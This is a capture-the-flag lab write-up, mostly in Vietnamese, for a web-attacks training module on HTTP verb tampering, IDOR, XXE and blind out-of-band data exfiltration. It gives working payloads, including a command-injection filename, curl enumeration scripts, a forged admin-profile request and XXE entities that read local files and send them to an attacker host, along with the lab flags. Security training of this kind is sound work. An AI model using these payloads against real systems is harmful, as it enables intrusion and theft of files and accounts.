



# Bypassing Basic Authentication

#### Questions
+ 1  Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.





# Bypassing Security Filters

#### Questions
+ 1  To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./

HTB{b3_v3rb_c0n51573n7}


# Mass IDOR Enumeration
#### Questions
+ 2  Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

Khi chúng ta vào mục update profile, mặc định ta sẽ thấy uid của mình là 1


Tại `documents.php`, đây là một `POST` request chứ không phải `GET... ?uid=1`


Hầu hết trong số các uid, các tài nguyên chúng ta truy cập được khá giống nhau, đều là các file pdf


Vậy tôi sẽ tạo từ điển `uid` từ 1 đến 20

```python
with open('uid.txt','w') as f:
     for i in range(1,21):
         f.write(f'{i}\n')
```


Flag được tìm thấy tại uid=15


```zsh
curl -s -X POST --data 'uid=15' http://83.136.252.14:33143/documents/flag_11dfa168ac8eb2958e38425728623c98.txt 
HTB{4ll_f1l35_4r3_m1n3}
```

# Bypassing Encoded References

#### Questions

+ 1  Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.


Tại `/contracts.php` chúng  ta thấy một hàm javascript khả khi đó là `javascript:downloadContract('1')`

Kiểm tra mã nguồn của hàm này:

```js
<script>
    function downloadContract(uid) {
      window.location = `/download.php?contract=${encodeURIComponent(btoa(uid))}`;
    }
  </script>
```

Phân tích hàm này, nó sẽ encode uid sang base64 sau đó lại tiếp tục encode uid base64 sang url.
Khi đó để download tài liệu, ta cần vào url: http://IP:PORT/download.php?contract=encoded_uid

Đoạn mã này sẽ tạo file với uid được encode 2 bước.

```python
import base64, urllib.parse

# Create url_encoded (base64_encoded (uid)) 1-20 to a file
with open('/home/kali/Downloads/encoded_uid.txt', 'w') as f:
    for i in range(1,21):
        uid = str(i)
        b64_byte = base64.b64encode(uid.encode('utf-8'))
        b64_str = b64_byte.decode('ascii')
        url_uid = urllib.parse.quote(b64_str, safe='')
        f.write(f'{url_uid}\n')
```

Tiếp đến có thể dùng:

```zsh
#!/usr/bin/bash

file='/home/kali/Downloads/encoded_uid.txt'
url='http://94.237.48.12:57204/download.php?contract='
count=0

while IFS= read -r line; do
  count=$((count+1))
  curl -sOJ "$url""$line"
  done < "$file"

echo "[+] $count file(s) downloaded!"
```

Hầu như toàn các file rỗng, chúng ta sẽ tìm ra file có chứa flag:


```zsh
find . -type f -name '*.pdf' -size +0 -exec ls -l {} \;
-rw-rw-r-- 1 kali kali 30 Jul 10 09:09 ./contract_98f13708210194c475687be6106a3b84.pdf

cat contract_98f13708210194c475687be6106a3b84.pdf              
HTB{h45h1n6_1d5_w0n7_570p_m3}
```

# IDOR in Insecure APIs

#### Questions
+ 1  Try to read the details of the user with 'uid=5'. What is their 'uuid' value?

Khi vào update profile sẽ có một request như sau:


Và một request như này:


Chúng ta có thể lợi dụng việc đó để tìm kiếm uuid có role là admin...

# Chaining IDOR Vulnerabilities

#### Questions
+ 3  Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

Chúng ta sẽ tìm kiếm người dùng admin:


Ở đây có người dùng có uid=10 là `staff-admin`

```request
PUT /profile/api.php/profile/10 HTTP/1.1

Host: 83.136.252.14:52947

Content-Length: 179

Accept-Language: en-US,en;q=0.9

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Content-type: application/json

Accept: */*

Origin: http://83.136.252.14:52947

Referer: http://83.136.252.14:52947/profile/index.php

Accept-Encoding: gzip, deflate, br

Cookie: role=staff_admin

Connection: keep-alive


{"uid":"10","uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"flag@idor.htb","about":"Never gonna give you up, Never gonna let you down"}
```


Kiểm tra lại xem chúng ta đã update được chưa:


Tải lại trang và thấy flag:


# Local File Disclosure

#### Questions
+ 1  Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.

Request ban đầu khi gửi forn:


Trường email sẽ được in dữ liệu ra màn hình.


Chúng ta chỉ cần sửa request để đọc mã nguồn dưới dạng base64


Dễ dàng có được api key


# Advanced File Disclosure

#### Questions

+ 3  Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

### Dùng CDATA

```zsh
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server
```

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE email [

  <!ENTITY % begin "<![CDATA[">

  <!ENTITY % file SYSTEM "file:///flag.php">

  <!ENTITY % end "]]>">

  <!ENTITY % xxe SYSTEM "http://10.10.14.206:8000/xxe.dtd">

  %xxe;

]>
<root>
<name>firstname</name>
<tel>01234356789</tel>
<email>&joined;</email>
<message>This is a test request</message>
</root>
```

### Dùng Error


Trong file xxe.dtd:

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```zsh
python3 -m http.server
```





# Blind Data Exfiltration

#### Questions
+ 2  Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag

### Manual

xxe.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

index.php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```


```zsh
php -S 0.0.0.0:8000   
[Fri Jul 11 11:28:50 2025] PHP 8.4.8 Development Server (http://0.0.0.0:8000) started
[Fri Jul 11 11:28:55 2025] 10.129.6.13:51826 Accepted
[Fri Jul 11 11:28:55 2025] 10.129.6.13:51826 [200]: GET /xxe.dtd
[Fri Jul 11 11:28:55 2025] 10.129.6.13:51826 Closing
[Fri Jul 11 11:28:56 2025] 10.129.6.13:51828 Accepted
[Fri Jul 11 11:28:56 2025] 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>

[Fri Jul 11 11:28:56 2025] 10.129.6.13:51828 [200]: GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K
[Fri Jul 11 11:28:56 2025] 10.129.6.13:51828 Closing
[Fri Jul 11 11:28:56 2025] 10.129.6.13:51830 Accepted
[Fri Jul 11 11:28:56 2025] 

```

### Automated

```zsh
ruby /opt/XXEinjector/XXEinjector.rb --host=10.10.14.206 --httpport=8000 --file=req.txt --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php --oob=http --phpfilter
```

# Web Attacks - Skills Assessment

---

## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

#### Questions
 Authenticate to with user "htb-student" and password "Academy_student!"

+ 5  Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.

Giao diện đăng nhập chính


Khi đăng nhập, kiểm tra lịch sử request, bạn sẽ thấy:


Có vẻ như sẽ có IDOR...

Tại `/setting.php` có một mã nguồn của hàm `resetpassword`:

```js
<script>
        function resetPassword() {
            if ($("#new_password").val() == $("#confirm_new_password").val()) {
                $("#error_string").html('');
                fetch(`/api.php/token/${$.cookie("uid")}`, {
                    method: 'GET'
                }).then(function(response) {
                    return response.json();
                }).then(function(json) {
                    fetch(`/reset.php`, {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/x-www-form-urlencoded'
                        },
                        body: `uid=${$.cookie("uid")}&token=${json['token']}&password=${$("#new_password").val()}`
                    }).then(function(response) {
                        return response.text();
                    }).then(function(res) {
                        $("#error_string").html(res);
                    });
                });
            } else {
                $("#error_string").html('Passwords do not match!');
            }
        };
    </script>
```

Đầu tiên so sánh 2 ô mật khẩu nếu giống nhau sẽ thực hiện việc lấy token.

Lấy token:
+ Endpoint: GET /api.php/token/{uid}
+ Cookie: PHPSESSID; uid


Reset password:
+ Endpoint: POST /reset.php
+ Cookie: PHPSESSID; uid
+ Data uid; token; password


Như vậy chúng ta cần xác định liệu có IDOR không!

Chúng ta sẽ sửa request tại đường dẫn /user/1 và tại cookie.


Lấy token của uid=1


Reset password của uid=1


Chúng ta nhận được thông báo access denied.

Đổi method từ POST sang GET và thành công.


Hãy thử đăng nhập với uid là 1.


Không có gì đặc biệt :v, tôi sẽ thử với các uid khác...


Tiến hành fuzzing để tìm kiếm người dùng khác.

Tạo list uid
```python
with open('uid.txt','w') as f:
     for i in range(200):
         f.write(f'{i}\n')
```

Chạy fuzzing, sau đó tìm kiếm cụm từ 'admin' từ kết quả, ta có thể thấy có một response có chứa 'Administrator', đó là của uid=52



```json
{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

Áp dụng cách trên, chúng ta sẽ thay đổi pass của uid=52

Lấy token


Đổi password


Đăng nhập


Có thêm một chức năng `ADD EVENT`


Khả năng sẽ có XXE ở đây, `name` được in trong kết quả, vậy ta hãy inject vào đây.


```xml
<?xml version="1.0"?>

<!DOCTYPE payload [

  <!ENTITY payload SYSTEM "file:///etc/passwd">

]>
            <root>
            <name>&payload;</name>
            <details>testing</details>
            <date>2025-07-12</date>
            </root>

```


Hoạt động ngay trong lần thử đầu tiên.

Tiếp theo hãy tiến hành đọc `/flag.php`

```xml
<?xml version="1.0"?>

<!DOCTYPE payload [

  <!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">

]>
            <root>
            <name>&payload;</name>
            <details>testing</details>
            <date>2025-07-12</date>
            </root>
```


